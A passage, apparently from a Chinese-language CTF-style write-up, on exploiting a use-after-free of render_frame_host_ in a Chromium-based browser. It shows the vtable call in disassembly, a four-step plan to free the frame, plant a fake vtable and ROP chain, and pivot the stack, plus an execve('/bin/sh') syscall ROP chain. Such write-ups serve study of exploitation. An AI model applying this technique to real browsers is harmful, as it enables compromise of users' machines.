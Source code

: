 ```
0x3c581de <store>+30>:mov    rax,QWORD PTR [rdi] => 将vtable存储到rax
0x3c581e1 <store>+33>:call   QWORD PTR [rax+0x160] => rax+0x160是IsRenderFrameLive的地址
0x3c581e7 <store>+39>:test   al,al
0x3c581e9 <store>+41>:je     0x3c58294 <store>+212>
```

偷大佬一个图（看起来会形象一些）：

![](./img/2.png)



整理下思路：
- 1、kill掉子frame将render_frame_host_释放
- 2、在render_frame_host_结构中伪造vtable，布置rop
- 3、将vtable修改为fake vtable的地址
- 4、xchg栈劫持

xchg gadget如下：
![](./img/3.png)
rax处此时为fake vtable的地址，也就是我们布置好的rop，这样就可以执行我们的rop链。

rop可以使用syscall
```
pop rdi; ret;
"/bin/sh\x00"
pop rsi; ret;
0
pop rdx; ret;
0
pop rax; ret;
59
syscall
```


###### 注意的点

- 首先我们的fake都是对子frame中进行操作的，所以我们需要在子frame中也leak一次render_frame_host_的地址。
